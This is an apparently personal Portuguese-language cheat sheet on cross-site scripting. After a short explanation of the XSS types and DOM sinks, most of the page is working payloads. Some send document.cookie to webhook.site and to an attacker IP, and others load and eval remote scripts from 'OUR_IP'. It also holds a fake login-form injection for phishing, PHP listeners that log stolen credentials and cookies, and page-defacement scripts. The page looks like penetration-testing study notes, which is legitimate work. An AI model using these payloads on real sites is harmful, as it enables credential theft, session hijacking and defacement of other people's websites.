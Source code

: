 # XSS

Existem **três tipos principais** de vulnerabilidades XSS:

| Tipo                         | Descrição |
|-----------------------------|-----------|
| **Stored (Persistent) XSS** | O tipo mais crítico de XSS, ocorre quando a entrada do usuário é armazenada no banco de dados do back-end e, em seguida, exibida posteriormente (ex: postagens ou comentários). |
| **Reflected (Non-Persistent) XSS** | Ocorre quando a entrada do usuário é refletida imediatamente na página após ser processada pelo servidor, sem ser armazenada (ex: resultados de pesquisa ou mensagens de erro). |
| **DOM-based XSS** | Um tipo de XSS não persistente que acontece quando a entrada do usuário é manipulada diretamente pelo navegador, sem passar pelo servidor (ex: parâmetros de URL ou tags de âncora). |

### Exemplos simples de payloads:

```html
<script>alert(window.origin)</script>
<plaintext>
<script>print()</script>
<img src="" onerror=alert(window.origin)>
<html%0aonpoIntEreNtER+=+[8].find(confirm)//>
<details%09ontoGGle%09=%09[8].find(confirm)%0dx//>
/language?destination=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTUE9TRUQnKTwvc2NyaXB0Pg==
<img src=x onerror="fetch('https://webhook.site/de5d7883-a25c-41cd-beb6-113d2b50a605',{method:'POST',body:'cookie='+document.cookie})">
<script>fetch("https://webhook.site/8a54464b-651a-4ae5-9d09-d19711774bd1",{method:'POST',body:'cookie='+document.cookie});</script>
<img src="invalid" onerror="document.body.innerHTML+='<iframe src=https://emupedia.net/emupedia-game-doom1/asmjs/ width=500 height=400></iframe>'">

```
Ferramenta útil: [URL/HTML Decoder - Eric Meyer](https://meyerweb.com/eric/tools/dencoder/)

---

### ✳️ DOM-Based XSS - Source & Sink

Para compreender XSS baseado em DOM, é essencial entender os conceitos de:

* **Source**: Objeto JavaScript que recebe a entrada do usuário (ex: parâmetros de URL, campos de input).
* **Sink**: Função que escreve a entrada do usuário no DOM. Se não sanitizar corretamente, permite ataques XSS.

### Funções JavaScript comuns como *sink*:

* `document.write()`
* `element.innerHTML`
* `element.outerHTML`

### Funções jQuery vulneráveis:

* `add()`
* `after()`
* `append()`

---

### 🎣 XSS Phishing

Simulando um formulário de login falso via XSS (passar no parâmetro vulnerável):

```html
document.write('<h3>Please login to continue</h3><form id="urlform" action="http://172.17.173.25"><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form><script>document.getElementById("urlform").remove();</script> <!--

```
Backend para captura de credenciais no seu host (ex na sua maquina atacante, um arquivo: index.php):

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    fclose($file);
    header("Location: http://SERVER_IP/phishing/index.php");
    exit();
}
?>
```
Host local com servidor PHP:

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
nano index.php   # Cole o código acima
sudo php -S 0.0.0.0:80
```

---

### 🖥️ XSS Defacement
Altera o conteúdo visual da página:

```html
<script>document.body.style.background = "black"</script>
<script>document.title = "deface"</script>
<script>document.getElementsByTagName('body')[0].innerHTML = "Deface"</script>

<script>
document.getElementsByTagName('body')[0].innerHTML = `
  <center>
    <h1 style="color: black">Protect this site, fellas</h1>
    <p style="color: white">
      by <img src="https://i.imgflip.com/1gpstz.jpg" height="1000px">
    </p>
  </center>`;
</script>

#Payload 1
<script>
  document.body.innerHTML = 
    <center>
      <iframe title="Doom" width="1000" height="900" src="https://emupedia.net/emupedia-game-doom1/asmjs/"></iframe>
      <br><br><br><br>
    </center>
  ;
</script>

#Payload 2
<iframe title="Doom" width="500" height="400" src="https://emupedia.net/emupedia-game-doom1/asmjs/"></iframe>

#Payload 3
<img src="invalid" onerror="document.body.innerHTML+='<iframe src=https://emupedia.net/emupedia-game-doom1/asmjs/ width=500 height=400></iframe>'">
```

---

### 🍪 XSS Session Hijacking / Blind XSS

Backend para roubo de cookies (ex: index.php):

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $cookie) {
        $cookie = urldecode($cookie);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Host local para escuta:

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
nano index.php   # Cole o código acima
php -S 0.0.0.0:4444
```
Payloads de exfiltração:

```html
<script src="http://OUR_IP"></script>
'><script src="http://OUR_IP"></script>
"><script src="http://OUR_IP"></script>

javascript:eval('var a=document.createElement("script");a.src="http://OUR_IP";document.body.appendChild(a)')

<script>
function b(){eval(this.responseText)};
a = new XMLHttpRequest();
a.addEventListener("load", b);
a.open("GET", "//OUR_IP");
a.send();
</script>

<script>$.getScript("http://OUR_IP")</script>

"><script>new Image().src='http://10.10.15.190:8080/index.php?c='+document.cookie</script>
```

falar ainda sobre dalfox e xss strike
